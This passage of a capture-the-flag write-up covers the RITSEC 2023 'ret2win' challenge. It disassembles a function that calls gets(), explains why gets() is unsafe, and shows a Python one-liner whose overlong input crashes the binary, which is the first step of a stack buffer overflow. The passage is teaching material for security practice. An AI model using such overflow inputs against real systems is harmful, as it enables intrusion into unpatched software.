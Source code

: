 When `main()` function is ran, it'll call function `user_input()`.

**Function `user_input()`:**
```shell
gef➤  disassemble user_input 
Dump of assembler code for function user_input:
   0x00000000004011e4 <+0>:	endbr64
   0x00000000004011e8 <+4>:	push   rbp
   0x00000000004011e9 <+5>:	mov    rbp,rsp
   0x00000000004011ec <+8>:	sub    rsp,0x20
   0x00000000004011f0 <+12>:	lea    rax,[rbp-0x20]
   0x00000000004011f4 <+16>:	mov    rdi,rax
   0x00000000004011f7 <+19>:	mov    eax,0x0
   0x00000000004011fc <+24>:	call   0x4010a0 <gets@plt>
   0x0000000000401201 <+29>:	lea    rax,[rbp-0x20]
   0x0000000000401205 <+33>:	mov    rsi,rax
   0x0000000000401208 <+36>:	lea    rdi,[rip+0xe71]        # 0x402080
   0x000000000040120f <+43>:	mov    eax,0x0
   0x0000000000401214 <+48>:	call   0x401090 <printf@plt>
   0x0000000000401219 <+53>:	nop
   0x000000000040121a <+54>:	leave
   0x000000000040121b <+55>:	ret
End of assembler dump.
```

In `+24`, **it'll call a function called `gets()`.**

> The C library function **`char *gets(char *str)`** reads a line from stdin and stores it into the string pointed to by str. It stops when either the newline character is read or when the end-of-file is reached, whichever comes first.

However, **this function is very, very dangerous, and must not be used**.

According to the [man](https://linux.die.net/man/3/gets) page, it said:

> Never use **gets**(). Because it is impossible to tell without knowing the data in advance how many characters **gets**() will read, and because **gets**() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use **fgets**() instead.

With that said, we can do the basic **stack buffer overflow**!

**In `+29` and `+33`, we see:**
```asm
lea    rax,[rbp-0x20]
mov    rsi,rax
```

The `gets()` function takes 32 bytes (`0x20`) to the stack.

**If the input goes over 32 bytes, it'll overflow!**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:28:53(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:29:04(HKT)]
└> ./ret2win 
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB, now do some damage :) 
[1]    258704 segmentation fault  ./ret2win
```
